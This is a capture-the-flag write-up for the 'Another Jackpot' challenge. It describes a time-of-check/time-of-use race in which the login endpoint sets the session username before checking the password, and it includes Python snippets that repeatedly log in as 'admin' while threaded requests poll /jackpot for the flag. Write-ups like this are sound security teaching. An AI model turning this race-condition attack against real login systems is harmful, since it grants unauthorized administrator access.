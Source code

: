 # Challenge `Another Jackpot` Writeup

- Vulnerability:
    - Time-of-check / Time-of - Race Condition

- Where:
    - `/login` and `/jackpot` endpoints

- Impact:
    - Allows non-admin users to access admin-only endpoints

## Steps to reproduce

By looking at the source code of the server, we can see that the jackpot page only reveals the flag when the `current_session.username == 'admin'`. 
Additionally, it's  revealed that during the login process, the variable current_session.username is set to the field username of the request form, momentarily allowing us to login as admin.

```python
current_session = get_current_session()
current_session.username = username
db.session.commit()
```

### Step 1: Login as admin

Since the variable `current_session.username` is set without any kind of verification, we can send a request to the `/login` endpoint with the username field set to `admin` and the password field set to anything (not empty).

```python
def login_as_admin():
    s.post(link + "/login", data={"username": "admin", "password": "passwordNotEmpty"})
```

### Step 2: Request the jackpot page

Using threads, we parallely send a request to the `/jackpot` endpoint and hope that the `current_session.username` variable is still set to `'admin'`, allowing us to see the flag.

```python
def login():
    while not success:
        login_as_admin()

login = threading.Thread(target=login)
login.start()

while not success:
    r = s.get(link + "/jackpot")
    match = re.search(r"SSof{.*}", r.text)
    if match:
        print(match.group(0))
        success = True
        login.join()
```

## Implementation

The full implementation can be found [here](another_jackpot.py).
